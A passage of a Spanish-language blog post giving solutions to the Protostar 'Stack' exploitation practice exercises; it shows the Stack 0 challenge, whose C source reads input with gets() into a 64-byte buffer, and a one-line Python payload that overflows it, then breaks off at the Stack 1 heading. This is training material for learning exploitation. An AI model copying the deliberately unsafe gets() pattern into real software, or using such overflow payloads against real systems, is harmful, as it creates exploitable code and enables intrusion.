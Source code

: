 ```yaml
---
title: "Soluciones de Protostar (Retos Stack)"
date: 2021-08-03T23:33:30-04:05
categories:
  - blog
tags:
  - protostar
  - hacking
  - soluciones
---
```

En un artículo anterior os explicaba <a href="https://rasp0wn.github.io/blog/como-instalar-protostart-exploiting/">cómo instalar la máquina virtual Protostar</a> para practicar ejercicios de exploiting. Sin embargo, en esta ocasión os traigo las soluciones de Protostar para los ejercicios de la sección «Stack«.

La categoría «Stack» cuenta con una serie de 8 ejercicios (del 0 al 7) y el código fuente podéis encontrarlos <a href="https://exploit.education/protostar/stack-zero/">aquí</a> aunque lo pondré a continuación junto a la solución de cada uno de los ejercicios.

## Soluciones de Protostar: Stack 0

Como en todos los ejercicios, el binario compilado que tendremos que explotar se encuentra en la ruta «/opt/protostar/bin/«. El código fuente es el siguiente:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

Y la solución se muestra a continuación:

```
python -c "print('A'*64 + 'B')" | ./stack0
```

## Soluciones de Protostar: Stack 1
Código fuente:
